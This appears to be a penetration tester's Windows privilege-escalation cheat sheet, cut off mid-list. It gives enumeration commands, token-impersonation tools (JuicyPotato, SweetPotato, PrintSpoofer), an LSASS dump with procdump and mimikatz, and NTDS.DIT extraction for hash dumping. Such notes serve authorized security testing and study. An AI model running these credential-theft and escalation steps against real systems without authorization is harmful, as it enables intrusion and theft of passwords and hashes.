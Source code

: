 1. **Initial checks (first 10 seconds on your shell)**
    
    ```
    whoami
    whoami /priv
    whoami /groups
    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
    tasklist /svc
    sc query spooler
    ```
    
    - If `SeImpersonatePrivilege` → try JuicyPotato / SweetPotato (both x86 and x64).
        
    - If `SeDebugPrivilege` → run `procdump -ma lsass.exe lsass.dmp` and then `mimikatz` locally or copy dump to Kali.
        
    - If `SeBackupPrivilege` → try shadowcopy / wbadmin / backup-API approaches to read SAM/NTDS files.
        
    - If `SeTakeOwnershipPrivilege` → use `takeown` and `icacls` to hijack writable service binary.
        
    - Run `winPEAS` / `SharpUp` to quickly flag likely paths.
        
2. **Token impersonation sequence**
    
    - Upload JuicyPotato.exe & associated CLSID list → try default CLSIDs → if fail, try SweetPotato (webshell) → if still fail, try PrintSpoofer.
        
3. **LSASS dump sequence (if debug)**
    
    - procdump -> copy -> mimikatz -> extract creds / tickets.
        
4. **Backup/NTDS sequence (if backup priv)**
    
    - create VSS / use backup API → export NTDS.DIT + SYSTEM → run esedbexport / secretsdump locally to extract hashes.
        
5. **If you get SYSTEM**
    
    - Enumerate, dump secrets with mimikatz/secretsdump, collect evidence and document steps for your report.
        

---

# Short example commands (for your cheat-sheet)

- Check privileges:
    
    ```
    whoami /priv
    ```
    
- JuicyPotato (on-target, architecture matters):
    
    ```
    JuicyPotato.exe <CLSID_GUID> <port> C:\Windows\System32\cmd.exe /c whoami
    ```
    
- SweetPotato (if webshell/non-interactive):
    